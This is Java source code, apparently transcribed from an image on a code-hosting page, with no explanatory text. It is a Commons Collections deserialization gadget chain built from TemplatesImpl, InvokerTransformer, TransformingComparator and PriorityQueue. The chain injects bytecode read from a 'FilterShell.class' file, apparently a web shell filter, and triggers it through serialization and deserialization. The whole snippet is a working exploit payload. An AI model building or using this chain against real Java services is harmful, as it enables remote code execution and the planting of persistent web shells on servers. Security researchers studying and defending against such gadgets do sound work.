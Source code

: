 ```plain

    public static void main(String[] args) throws Exception {
        Templates templates = new TemplatesImpl();
        byte[] bytes = getBytes();
        setFieldValue(templates,"_name","Sentiment");
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});

        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});


        TransformingComparator transformingComparator=new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue=new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c=transformingComparator.getClass();
        Field transformField=c.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("1.ser");

    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.ser"));
        out.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream In = new ObjectInputStream(new FileInputStream(Filename));
        Object o = In.readObject();
        return o;
    }
    public static byte[] getBytes() throws IOException {
        InputStream inputStream = new FileInputStream(new File("FilterShell.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }

}
```
